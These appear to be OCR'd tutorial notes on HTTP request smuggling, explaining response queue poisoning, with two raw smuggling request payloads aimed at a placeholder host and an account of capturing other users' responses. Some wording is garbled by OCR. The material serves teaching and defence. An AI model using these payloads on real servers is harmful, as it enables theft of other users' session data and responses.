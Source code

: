 ```
```
## Response queue poisoning
Response queue poisoning is a powerful form of request smuggling attack that causes a front-end server to start mapping responses from the back-end to the wrong requests. In practice, this means that all users of the same front-end/back-end connection are persistently served responses that were intended for someone else.  
For a successful response queue poisoning attack, the following criteria must be met:
* The TCP connection between the front-end server and back-end server is reused for multiple request/response cycles. 
* The attacker is able to successfully smuggle a complete, standalone request that receives its own distinct response from the back-end server. 
* The attack does not result in either server closing the TCP connection. Servers generally close incoming connections when they receive an invalid request because they can't determine where the request is supposed to end.  

If you instead smuggle a request that also contains a body, the next request on the connection will be appended to the body of the smuggled request. This often has the side-effect of truncating the final request based on the apparent Content-Length. As a result, the back-end effectively sees three requests, where the third "request" is just a series of leftover bytes: 
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: v`ulnerable-website.com`
```
All afteer "v" is considered as leftover bytes and oftenlyc auses an error  
With a bit of care, you can smuggle a complete request instead of just a prefix. As long as you send exactly two requests in one, any subsequent requests on the connection will remain unchanged: 
```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```
Once the response queue is poisoned, the attacker can just send an arbitrary request to capture another user's response.  
An attacker can continue to steal responses like this for as long as the front-end/back-end connection remains open. Exactly when a connection is closed differs from server to server, but a common default is to terminate a connection after it has handled 100 requests. It's also trivial to repoison a new connection once the current one is closed.  
## Browser-powered request smuggling